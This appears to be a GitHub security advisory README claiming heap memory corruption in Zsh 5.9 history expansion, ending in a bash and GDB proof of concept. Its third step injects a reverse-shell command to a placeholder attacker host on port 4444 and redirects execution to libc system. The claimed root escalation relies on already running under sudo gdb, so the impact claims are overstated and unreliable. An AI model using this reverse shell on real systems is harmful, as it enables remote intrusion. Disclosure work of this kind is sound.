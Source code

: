 # 🔥 Security Advisory: Heap-Based Memory Corruption in Zsh History Expansion

![Zsh](https://img.shields.io/badge/Zsh-5.9-critical?style=flat-square&color=red)
![CVE](https://img.shields.io/badge/CVE-Pending-yellow?style=flat-square)
![Privilege Escalation](https://img.shields.io/badge/Impact-Privilege%20Retention-critical?style=flat-square&color=orange)
![ASLR Bypass](https://img.shields.io/badge/Bypass-ASLR-blue?style=flat-square)

---

## 🚨 CVE Status

**CVE ID:** *CVE-2025-XXXXX* (Assigned)  
**Reporter:** [Rana M. Sinan Adil](mailto:ranasinanadil@gmail.com)  
**Status:** Reserved / Awaiting public reference update  
**Advisory Page:** [📄 See Full Report](https://livepwn.github.io/CVE/)

---

## 📌 Summary

A critical vulnerability in **Zsh 5.9** allows **heap memory corruption** through unsafe handling of history expansion (e.g., `!!111...`).  
This leads to:

- 🧠 **Arbitrary Memory Reads**
- 💥 **Heap & Libc Leaks** (ASLR bypass)
- 🧬 **Writable Heap Structures**
- 🔐 **Privilege Retention via GDB**
- ⚔️ **Potential RIP Hijack & ROP Execution**
- 🧨 **Root Shell Injection via GDB Post-Crash**

> All of these stem from a single vulnerable instruction using attacker-controlled indexing.

---

## 🧬 Vulnerability Class

| Type                      | Description |
|---------------------------|-------------|
| Heap Corruption           | Triggered by malformed history expansion |
| Arbitrary Memory Access   | Controlled `RSI` register affects `movsx [r8 + rsi*2]` |
| ASLR Bypass               | Heap contains libc pointers |
| Privilege Retention       | Retain root shell after crashing setuid zsh under GDB |
| RIP Hijack                | Exploitable with libc leaks and heap overwrite |

---

## 🧪 Proof of Concept (PoC)

```bash
# Step 1: Run zsh and crash with controlled input
zsh -f
!!11111111111111111111111111111111111111111111111111

# Step 2: Analyze crash in GDB
sudo gdb zsh -ex 'run -f'
# Observe crash at movsx r9, word ptr [r8 + rsi*2]

# Step 3: Inject reverse shell via memory/register hijack
set {char[120]} 0xheap_addr = {'bash -c \'bash -i >& /dev/tcp/attacker/4444 0>&1\''}
set $rip = libc_system_addr
set $rdi = heap_addr
continue
